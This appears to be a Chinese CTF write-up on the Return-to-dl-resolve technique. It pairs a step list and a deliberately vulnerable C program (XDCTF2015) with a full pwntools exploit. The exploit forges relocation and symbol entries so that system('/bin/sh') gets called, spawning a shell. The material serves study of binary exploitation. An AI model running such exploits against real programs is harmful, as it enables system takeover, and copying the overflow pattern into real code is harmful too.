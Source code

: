 # Return-to-dl-resolve
&#8195;参加大佬的讲解，非常非常的详细！！！这里简单总结为如下的内容，主要需要了解动态重定向的过程。其实感觉这样一步一步的fake，貌似还更容易理解<br>
&#8195;1、通过栈溢出，构造rop，向bss段某位置写入数据<br>
&#8195;2、将栈地址改向bss段<br>
&#8195;3、写入正常的shellcode，使用write输出‘/bin/sh’（通过write plt）<br>
&#8195;4、修改为通过plt 0，给出reloc的偏移<br>
&#8195;5、构造假的重定向表，给出在动态链接符号表中的偏移<br>
&#8195;6、构造假的dynsym，给出在字符串表中的偏移<br>
&#8195;7、构造所需函数的字符串名字，改变参数<br>


## vuln code
```
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

## exp

```
from pwn import *
import time,sys,binascii

elf_name = "./bof"
elf = ELF(elf_name)

io = process( elf_name )
gdb.attach(io, "b *0x08048535")

write_plt = elf.plt['write']
read_plt = elf.plt['read']
write_got = 0x0804A020

bss_addr = 0x0804a040
stack_size = 0x800
bss_stage = bss_addr + stack_size

ppp_ret = 0x080485cc
pop_ebp_ret = 0x080485ce
leave_ret = 0x08048468
#write_offset = 0x28

payload1 = 'a' * 112
payload1 += p32(read_plt)
payload1 += p32(ppp_ret)
payload1 += p32(0)
payload1 += p32(bss_stage)
payload1 += p32(0x100)
payload1 += p32(pop_ebp_ret)
payload1 += p32(bss_stage)
payload1 += p32(leave_ret)
payload1 += 'a' * (0x100 - len(payload1))
io.send(payload1)

dynsym = 0x080481d8
dynstr = 0x08048278

plt_0 = 0x08048390  #objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
r_index = (bss_stage + 28) - rel_plt

align = (0x10 - (bss_stage + 36 - dynsym) & 0xf)
fake_sym_addr = bss_stage + 36 + align
sym_index = (fake_sym_addr - dynsym) / 0x10

r_offset = write_got
r_info = (sym_index << 8) | 0x7
fake_reloc = p32(r_offset) + p32(r_info)

str_addr = fake_sym_addr + 0x10
str_offset = str_addr - dynstr
fake_sym = p32(str_offset) + p32(0x0) + p32(0x0) + p32(0x12)


cmd = '/bin/sh'
payload2 = 'aaaa'
payload2 += p32(plt_0)
payload2 += p32(r_index)
payload2 += 'aaaa'
payload2 += p32(bss_stage + 0x80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc
payload2 += 'a' * align
payload2 += fake_sym
payload2 += 'system' + '\x00'
payload2 += 'a' * (0x80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'a' * (0x100 - len(payload2))

io.send(payload2)

io.interactive()

```

## 参考资料
32位： http://pwn4.fun/2016/11/09/Return-to-dl-resolve/
64位： http://www.freebuf.com/articles/system/149364.html
